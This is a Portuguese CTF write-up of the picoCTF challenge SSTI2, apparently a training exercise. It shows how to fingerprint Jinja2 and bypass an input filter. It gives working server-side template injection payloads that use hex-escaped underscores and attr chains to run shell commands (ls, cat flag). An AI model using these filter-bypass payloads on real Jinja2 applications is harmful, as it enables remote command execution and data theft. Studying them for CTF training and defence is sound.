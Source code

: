 # SSTI2
###### Solved by @joaoselim
> This CTF is about web, SSTI

## About the challenge
A questão [SSTI2]({{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
) possui o enunciado `I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)` junto de um link gerado para o site.

Explica que tem um site onde é possível anunciar qualquer coisa, mas que diferente do desafio [SSTI1](https://play.picoctf.org/practice/challenge/492?page=1&search=SSTI) agora tem um filtro que bloqueia certas entradas.

## Solution
Ao abrir o site encontra-se uma página simples com texto e um espaço para inserir informação.

[![tela-inicial.png](https://i.postimg.cc/nrSb2tJ9/tela-inicial.png)](https://postimg.cc/jnfFqmCR)

O nome da questão é uma informação de que o desafio é baseado em [SSTI(Server Side Template Injection)](https://portswigger.net/web-security/server-side-template-injection#what-is-server-side-template-injection),
que se trata de injeção de código nos templates.

O primeiro passo é identificar qual o tipo de template que estamos lidando; para determinar isso existem testes, como exemplificado na árvore de decisões.

[![template-decision-tree.png](https://i.postimg.cc/66bpzkzh/template-decision-tree.png)](https://postimg.cc/yW9K8rMJ)

O primeiro payload a verificar é `${7*7}`. Inserindo tem como saída:

[![input1.png](https://i.postimg.cc/xC01FYW6/input1.png)](https://postimg.cc/NyztKhGX)

Não funcionou, o programa apenas interpretou como texto comum, não executou o programa.

Seguindo a tabela, o próximo payload a ser inserido é `{{7*7}}`. Inserindo se tem como saída.

[![input2.png](https://i.postimg.cc/J0YgCcts/input2.png)](https://postimg.cc/QK5Sp7QD)

Dessa vez o programa foi executado, foi interpretado que deveria realizar a multiplicação de `7 * 7` retornando `49`.

O próximo payload a ser testado é `{{7*'7'}}`. Inserindo se tem como saída.

[![input3.png](https://i.postimg.cc/rmqd45jZ/input3.png)](https://postimg.cc/t1mCQZLF)

Com isso é possível se constatar que se trata de [Jinja2](https://www.treinaweb.com.br/blog/o-que-e-o-jinja2).

A partir desse ponto, o objetivo é entender como funciona a filtragem e elaborar um payload que seja aceito pelo site.
Verificando o código fonte do site e analisando, entende-se que não tem como ter acesso direto ao filtro. Portanto a maneira de seguir é inserindo payloads e observar o que é aceito ou não.

Inserindo payloads como:
```
{{ self._init.globals.builtins.import_('os').popen('id').read() }}
```
```
{{config._class.init.globals_['os'].popen('ls').read()}}
```
Observa-se que algumas das strings filtradas incluem `.`, `'os'`, `[]` e a remoção do caracter `_`.

[![inputfalho.png](https://i.postimg.cc/XJJTJ7mG/inputfalho.png)](https://postimg.cc/WDB9Yj2T)

Para driblar o filtro, codificamos os caracteres necessários para o código. Substituindo `.` por `\x5f` e `_` por `|attr`, obtém-se no payload:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```
Inserindo ele, retorna a informação de arquivos localizados na pasta atual

[![inputls.png](https://i.postimg.cc/3RkYqBKc/inputls.png)](https://postimg.cc/47RD7pH6)

Com essa saída constatou-se a existência de um arquivo `flag`.

Agora precisa se acessar o conteúdo do arquivo, através do comando `cat` e indicando o arquivo em questão, se gera o payload:
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
Inserindo, obtém-se a saída:

[![inputflag.png](https://i.postimg.cc/PqhC00cF/inputflag.png)](https://postimg.cc/SnTQM1mW)

Assim chegando na flag:
>'picoCTF{sst1_f1lt3r_byp4ss_4de30aa0}'
